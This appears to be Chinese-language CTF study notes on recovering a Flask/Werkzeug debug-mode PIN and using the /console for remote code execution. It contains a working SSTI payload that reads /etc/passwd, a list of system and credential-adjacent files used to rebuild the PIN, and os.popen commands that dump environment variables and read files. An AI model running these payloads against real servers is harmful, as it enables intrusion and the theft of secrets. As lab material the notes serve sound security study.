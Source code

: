 Flask模板注入中debug模式下pin码的获取和利用:
## **什么是pin码**
pin码是flask在开启debug模式下，进行代码调试模式所需的进入密码，需要正确的PIN码才能进入调试模式，可以理解为自带的webshell。
有了pin，然后报错或访问/console进，点击一个条列的右边有一个终端按钮，点击进入控制台rce


729-315-842


## **pin码生成要六要素**
通常任意文件读取ssti：
```
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}
```
1.username在可以任意文件读的条件下读/etc/passwd进行猜测
2.modname 默认 flask.app
3.appname 默认Flask
4.moddir flask库下app.py的绝对路径,可以通过报错拿到,如传参的时候给个不存在的变量，乱传ssti
5.uuidnode mac地址的十进制
```
任意文件读/sys/class/net/eth0/address或具体ls查看
/sys/class/net/eth0/address
/sys/class/net/ens33/address 去掉冒号后int("c2f233c6de75",16)转换为十进制
```
6.machine_id 机器码 
```
machine-id 基于不同版本有不同的算法
machine_id由三个合并(docker就后两个)：1./etc/machine-id 2./proc/sys/kernel/random/boot_id 3./proc/self/cgroup

在werkzeug 1.0.0rc1之前为:
docker环境: /proc/self/cgroup 列表里面…/docker/后面的内容
非docker: /etc/machine-id或/proc/sys/kernel/random/boot_id的内容

在werkzeug 1.0.0rc1及之后为:
/etc/machine-id或/proc/sys/kernel/random/boot_id
+
/proc/self/cgroup
```
![](.topwrite/assets/image_1736668157595.png)
然后通过程序生成pin。
生成pin码也有md5和sha1算法两种。

^
## **控制台利用**
有了pin，然后报错或访问/console进，点击一个条列的右边有一个终端按钮，点击进入控制台rce
```
import os
os.popen('env').read()

os.popen("ls -l /").read()
os.popen("cat /this_is_the_flag.txt").read()


__import__('os').popen("env").read()
```



![](.topwrite/assets/image_1728027706412.png)
^
<https://blog.csdn.net/rfrder/article/details/110240245>

<https://www.cnblogs.com/MisakaYuii-Z/p/12407760.html>